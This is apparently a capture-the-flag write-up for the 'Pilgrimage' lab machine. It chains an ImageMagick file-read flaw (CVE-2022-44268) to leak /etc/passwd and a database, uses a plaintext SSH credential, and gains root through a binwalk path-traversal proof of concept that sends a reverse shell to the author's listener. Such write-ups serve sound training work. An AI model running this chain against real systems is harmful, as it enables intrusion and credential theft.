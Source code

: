 # Given Info

## IP

10.10.11.219

# Writeup

## Enumeration

Nmap

```sh
┌──(root㉿n0m4d)-[/host_data/pilgrimage/enum]
└─# nmap -A 10.10.11.219 -oN nmap.out
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-12 08:12 UTC
Nmap scan report for 10.10.11.219
Host is up (0.0077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 20:be:60:d2:95:f6:28:c1:b7:e9:e8:17:06:f1:68:f3 (RSA)
|   256 0e:b6:a6:a8:c9:9b:41:73:74:6e:70:18:0d:5f:e0:af (ECDSA)
|_  256 d1:4e:29:3c:70:86:69:b4:d7:2c:c8:0b:48:6e:98:04 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   11.55 ms 10.10.14.1
2   11.69 ms 10.10.11.219

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.50 seconds
```

Directory busting for files

![](Assets/Pasted%20image%2020250912162306.png)

Found a hidden git directory, and dumped it to get the source code in php for the pilgrimage site.

In `dashboard.php` there's a function to compress an uploaded image, and it uses a binary called magick.

![](Assets/Pasted%20image%2020250912163142.png)

Running the magick binary shows us the following:

![](Assets/Pasted%20image%2020250912193528.png)

And looking for the exploit's vulnerabilities gives us the following:

![](Assets/Pasted%20image%2020250912193655.png)

This particular exploit has too many steps, so I found one better using python: https://github.com/entr0pie/CVE-2022-44268

Following the steps there creates a file with some embedded code inside it as per the git repo's instructions. 

![](Assets/Pasted%20image%2020250912205332.png)

Upload this file to the website, and download the one that it minifies. 

The minified file is the one that has the response to the embedded code inside in RAW format

```sh
  Raw profile type:

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a
```

Use python to decode the file, and display the contents.

```sh
┌──(root㉿n0m4d)-[/host_data/pilgrimage/vulns/CVE-2022-44268]
└─# ./bin/python -c "print(bytes.fromhex('<hash>'))"
```

![](Assets/Pasted%20image%2020250912211101.png)

Using the `xxd` tool can help to recreate the original file from the hex code

![](Assets/Pasted%20image%2020250912225000.png)

Next I can try to list the database referenced in the index.php file at

![](Assets/Pasted%20image%2020250912225806.png)

```sh
┌──(root㉿n0m4d)-[/host_data/pilgrimage/vulns/CVE-2022-44268]
└─# ./bin/python3 CVE-2022-44268.py /var/db/pilgrimage
```

Upload this to the site, download the shrunk file, and check it using xxd

![](Assets/Pasted%20image%2020250912230906.png)

Alternatively it could be written to file, and opened using SQLite

![](Assets/Pasted%20image%2020250912230958.png)

Then use SSH to login as Emily

Going through the privesc checklist, we get to the part about running processes. Looking for processes that run as root uses `ps aux | grep root`

There are a couple of interesting things to see here. 

![](Assets/Pasted%20image%2020250912232934.png)

Check to see if we can look at `malwarescan.sh`. How this file works is by running this malware scan everytime a file is dropped into `/var/www/pilgrimage.htb/shrunk`. This makes use of the binwalk binary which is the one I'm looking to exploit here.

```sh
emily@pilgrimage:~$ cat /usr/sbin/malwarescan.sh
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

Running the command gives us the version details

![](Assets/Pasted%20image%2020250912234216.png)

Running searchsploit for this version of binwalk gives us a python poc that we can use to create a new reverse shell as root. 

The attack itself is essentially a path traversal. It makes use of the effected version of binwalk using extract mode to open the malicious file. The bug itself is in a type of file system called PFS, where using `../` (not absolute paths), we can force binwalk to write files outside of its intended execution directory.

I started off by creating a `.png` file called `vuln.png` and ran the exploit as follows, giving my IP and listener port as additional arguments.

![](Assets/Pasted%20image%2020250913083730.png)

I also had a listener running as the malware scan will execute the moment a file is dropped into the `shrunk` directory on the target, and I needed to catch that reverse shell.

Next, I started a python web server, and transferred the `binwalk_exploit.png` file onto the target.

![](Assets/Pasted%20image%2020250913084006.png)

My listener caught the reverse shell, and I had root access.

# Creds

```sh
# SSH
emily : abigchonkyboi123
```

# Proof

![](Assets/Pasted%20image%2020250912231252.png)

![](Assets/Pasted%20image%2020250913084205.png)

# Resources

https://www.onekey.com/resource/security-advisory-remote-command-execution-in-binwalk

https://youtu.be/aaUlHicClrI?si=fIz_0LU3tOXRNN1x